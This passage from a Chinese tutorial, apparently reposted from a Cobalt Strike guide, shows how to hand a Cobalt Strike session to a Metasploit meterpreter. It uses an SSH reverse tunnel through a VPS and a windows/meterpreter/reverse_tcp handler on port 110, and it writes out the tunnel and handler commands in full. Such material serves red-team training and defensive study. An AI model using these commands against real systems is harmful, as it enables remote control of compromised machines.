


> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/12.html](http://book.iwonder.run/Tools/Cobalt Strike/12.html)

## windows/foreign/reverse_tcp [ 反向 tcp 外部监听器 ]

> 跟上面差不多,只不过这次换了下协议而已,首先,还是先把本地和 vps 之间的 ssh 隧道打通,具体操作如下

```
# ssh -C -f -N -g -R 0.0.0.0:110:192.168.3.57:110 root@45.63.121.57 -p 22
# ps -ef | grep "192.168.3.57" 
```



> 而后,创建一个 reverse_tcp 的外部监听器



> 继续使用派生功能,将其派生到 reverse_tcp 这个外部监听器上


> 稍等片刻,便会看到本地 msf 的 meterpreter 上线,注意,此处外部监听器用的是 tcp 的 110 端口,那么你后面的 meterpreter payload 也一定要用 tcp 的 110 端口,这样数据才能正常对接交换

```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set lhost 192.168.3.57
msf5 > set lport 110
msf5 > set exitonsession false
msf5 > exploit -j
msf5 > sessions -i 1
meterpreter > sysinfo
meterpreter > getuid 
```


